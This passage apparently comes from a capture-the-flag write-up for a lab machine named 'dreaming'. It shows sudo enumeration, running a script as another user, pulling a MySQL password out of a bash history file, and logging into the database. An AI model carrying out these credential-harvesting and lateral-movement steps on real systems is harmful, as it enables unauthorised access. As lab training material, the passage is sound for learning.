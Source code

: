 ```
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lucien may run the following commands on dreaming:
    (death) NOPASSWD: /usr/bin/python3 /home/death/getDreams.py
```
on the `/opt` it was the same file, so i will execute the script as the user death using 
```
sudo -u death python3 /home/death/getDreams.py
lucien@dreaming:/opt$ sudo -u death python3 /home/death/getDreams.py
Alice + Flying in the sky

Bob + Exploring ancient ruins

Carol + Becoming a successful entrepreneur

Dave + Becoming a professional musician

lucien@dreaming:/opt$ 
```
Now i look on my user bash history
```
ls
mysql -u lucien -plucien42DBPASSWORD
ls -la
cat .bash_history 
cat .mysql_history 
clear
ls


```
found this password
**Connect on the DB**
```
lucien@dreaming:~$ mysql -u lucien -h localhost -plucien42DBPASSWORD
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 10
Server version: 8.0.35-0ubuntu0.20.04.1 (Ubuntu)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| library            |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.01 sec)

mysql> use mysql


```